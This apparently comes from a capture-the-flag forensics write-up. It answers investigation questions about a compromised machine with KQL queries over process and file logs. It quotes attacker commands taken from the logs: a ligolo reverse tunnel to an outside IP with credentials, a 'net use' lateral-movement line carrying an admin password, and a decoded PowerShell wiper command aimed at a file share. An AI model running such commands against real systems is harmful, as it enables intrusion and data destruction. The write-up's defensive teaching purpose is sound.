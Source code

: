 What file is dropped to Alabaster's machine shortly after he downloads the malicious file? `Giftwrap.exe`

```
FileCreationEvents 
| where timestamp between (datetime(2023-12-02T10:12:42Z) .. datetime(2023-12-02T15:12:42Z))
| where hostname == "Y1US-DESKTOP"
```

### Case 4
The attacker created a reverse tunnel connection with the compromised machine. What IP was the connection forwarded to? `113.37.9.17`

```
ProcessEvents
| where hostname == "Y1US-DESKTOP"
```

Found by scrolling through and noticing `ligolo` - a reverse tunneling tool. 

```
"ligolo" --bind 0.0.0.0:1251 --forward 127.0.0.1:3389 --to 113.37.9.17:22 --username rednose --password falalalala --no-antispoof
```



What is the timestamp when the attackers enumerated network shares on the machine? `2023-12-02T16:51:44Z`

```
ProcessEvents
| where hostname == "Y1US-DESKTOP"
| where process_commandline has "share"
```

Shows one event where the attacker runs `net share`.



What was the hostname of the system the attacker moved laterally to? `NorthPolefileshare`
Same query
 
Towards the bottom: 
```
2023-12-24T15:14:25Z    cmd.exe /C net use \\NorthPolefileshare\c$ /user:admin AdminPass123
```

At 2023-12-25T10:44:27Z is a suspicious PS encrypted command
```
Decrypts (b64) to C:\Windows\System32\downwithsanta.exe --wipeall \\\\NorthPolefileshare\\c$
```




### Case 5
When was the attacker's first base64 encoded PowerShell command executed on Alabaster's machine? `2023-12-24T16:07:47Z`
```
ProcessEvents
| where process_commandline has "enc"
| where hostname == "Y1US-DESKTOP"
```
